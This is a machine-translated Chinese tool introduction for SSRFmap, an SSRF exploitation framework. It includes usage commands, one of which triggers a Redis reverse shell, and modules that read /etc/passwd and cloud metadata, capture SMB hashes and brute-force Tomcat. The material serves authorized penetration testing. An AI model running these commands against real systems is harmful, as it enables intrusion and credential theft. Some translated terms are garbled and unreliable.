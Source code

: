 # SSRFmap:自动 SSRF 模糊器及开发工具

> 原文：<https://kalilinuxtutorials.com/ssrfmap-ssrf-fuzzer-exploitation/>

SSRF 通常用于利用其他服务上的动作，该框架旨在轻松地发现和利用这些服务。SSRFmap 将一个 Burp 请求文件作为输入，并将一个参数作为 fuzz。

注意:服务器端请求伪造或 SSRF 是一个漏洞，攻击者在其中强迫服务器代表他们执行请求。

**又念:** [Pwndb:搜索泄露的凭据](https://kalilinuxtutorials.com/pwndb-search-leaked-credentials/)

**指南/ RTFM**

从 Github 库进行基本安装。

git 克隆 https://github.com/swisskyrepo/SSRFmap
CD SSRFmap/
pip 3 install-r requirements . txt
python 3 SSRFmap . py
用法:SSRFmap . py[-h][-r req file][-p PARAM][-LHOST LHOST][–LPORT LPORT][–LEVEL LEVEL]

**可选参数:** -h、 –帮助显示此帮助消息并退出
-r REQFILE SSRF 请求文件
-p PARAM SSRF 参数到目标
-m 模块 SSRF 模块启用
-l 处理程序启动反向外壳的处理程序
–LHOST LHOST LHOST 反向外壳
–LPORT LPORT 反向外壳
–LEVEL[LEVEL]要执行的测试级别(1-5，默认值:1)

使用该脚本的默认方式如下。

在 localhost 上启动 portscan 并读取默认文件
python ssrfmap . py-r data/request . txt-p URL-m read files，portscan
在 Redis 上触发反向 shell
python ssrfmap . py-r data/request . txt-p URL-m Redis–lhost = 127 . 0 . 0 . 1–lport = 4242-l 4242
-l 在指定端口上创建反向 shell 的侦听器
–lhost 和–lport 工作例如:127 . 0 . 0 . 1->[::]->0000:->…

使用 data/example.py SSRF 服务可以快速测试该框架。

FLASK _ APP = data/example . py FLASK run &
python ssrfmap . py-r data/request . txt-p URL-m read files

## 模块

以下模块已经实现，可以与`-m`参数一起使用。

| 名字 | 描述 |
| --- | --- |
| `fastcgi` | FastCGI |
| `redis` | 核证的排减量 |
| `github` | Github 企业版< 2.8.7 |
| `zabbix` | 扎比克斯·RCE |
| `mysql` | MySQL 命令执行 |
| `docker` | 通过 API 对接信息泄漏 |
| `smtp` | SMTP 发送邮件 |
| `portscan` | 扫描主机的端口 |
| `networkscan` | HTTP Ping 扫描整个网络 |
| `readfiles` | 读取文件如`/etc/passwd` |
| `alibaba` | 从提供商处读取文件(例如:元数据、用户数据) |
| `aws` | 从提供商处读取文件(例如:元数据、用户数据) |
| `gce` | 从提供商处读取文件(例如:元数据、用户数据) |
| `digitalocean` | 从提供商处读取文件(例如:元数据、用户数据) |
| `socksproxy` | SOCKS4 代理 |
| `smbhash` | 通过 UNC 路径强制 SMB 身份验证 |
| `tomcat` | 对 Tomcat 管理器的暴力攻击 |

[**Download**](https://github.com/swisskyrepo/SSRFmap/blob/master/README.md)
